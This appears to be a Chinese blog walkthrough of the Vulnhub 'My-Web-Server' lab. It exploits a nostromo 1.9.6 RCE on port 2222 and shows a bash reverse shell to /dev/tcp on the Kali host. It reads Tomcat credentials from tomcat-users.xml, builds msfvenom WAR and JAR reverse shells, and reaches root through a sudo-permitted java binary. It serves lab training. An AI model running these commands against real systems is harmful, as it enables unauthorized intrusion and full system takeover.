 ```yaml
---
title: 'My-Web-Server : Walkthrough'
date: 2020-06-08T00:45:28+08:00
author: 2hanx
layout: post
categories:
  - Vulnhub

---
```

### 主机识别

`arp-scan -l`

### 网络拓扑

| 计算机           | IP              |
| ------------- | --------------- |
| 本机（Win10）     | `192.168.1.105` |
| Kali          | `192.168.1.112` |
| My-Web-Server | `192.168.1.103` |

### 扫描端口和版本信息

`nmap -A 192.168.1.103`

![1.png](https://i.loli.net/2020/06/08/Un5CXuRQt4AKikV.png) 

扫描结果又是有多个 Web 应用，为了避免犯之前的错误，这里我进行扫描全部端口，不过结果并没有差异

### 访问 Web 并确定 Web 应用

根据 Nmap 扫描结果可知，服务器运行着不同的 Web 应用。经过 _dirb_ ，_searchsploit_ 等测试后，发现 **2222** 端口运行的 **nostromo 1.9.6** 服务器具有 RCE 漏洞

![2.png](https://i.loli.net/2020/06/08/w3eOKnu85mx46bj.png) 

![3.png](https://i.loli.net/2020/06/08/jRWF1eo3OY9KzGg.png) 

![4.png](https://i.loli.net/2020/06/08/QhTaMCZ2BL73ukg.png) 

运行 Python 脚本，发现可以利用成功

![5.png](https://i.loli.net/2020/06/08/lUrg3mziVLDS6Z9.png) 

### Getshell

既然服务器具有 RCE 漏洞并且可以利用，那么接下来我们就通过获取 shell 来更方便的执行命令

<pre><code class="language-python line-numbers">python2 47837.py 192.168.1.103 2222 "bash -c \"bash -i &gt;& /dev/tcp/192.168.1.112/4455 0&gt;&1\""
</code></pre>

Kali 监听 **4455** 端口，即可连接到 shell。之后使用 _find_ 在找该用户可写入的目录时我们发现该用户可以写 Tomcat 配置文件所在的目录

`find / -writable -type d 2>/dev/null`

![6.png](https://i.loli.net/2020/06/08/mFBD2OZrRX1sNIU.png) 

通过读 Tomcat 应用的用户文件（**/usr/local/tomcat/conf/tomcat-users.xml**），我们可以得到 Tomcat 的用户名和密码：`tomcat:@sprot0230sp`，使用该账户和密码登录 Tomcat 系统

![7.png](https://i.loli.net/2020/06/08/H93N57njXDa6P4G.png) 

在系统后台，我们可以通过上传 WAR file 来提高权限，并且可以在 Kali 平台上使用 _msfvenom_ 工具生成反向 shell 文件

<pre><code class="line-numbers">msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.112 LPORT=5566 -f war &gt; getshell.war
</code></pre>

![8.png](https://i.loli.net/2020/06/08/qki1g5XlWKHRUnc.png) 

### 提权

Kali 本地监听 **5566** 端口，浏览器访问 `http://192.168.1.103:8080/getshell/`路径即可反弹 shell

![9.png](https://i.loli.net/2020/06/08/fB6drVxwAvehJ3K.png) 

看来我们切换到了 _tomcat_ 账户下，并且发现可以 sudo 执行 `/usr/lib/jvm/adoptopenjdk-8-hotspot-amd64/bin/java` 工具，因此该工具是运行 java 程序，那么我们再使用 msfvenom 生成一个 java 格式的反向 shell 即可

`msfvenom -p java/shell_reverse_tcp LHOST=192.168.1.112 LPORT=7788 -f jar > getroot.jar`

![10.png](https://i.loli.net/2020/06/08/Jbu1SY5PUatDKN7.png) 

Kali 监听 **7788** 端口即可获得 root 权限

![11.png](https://i.loli.net/2020/06/08/oQtMOnwrpqJZBmx.png)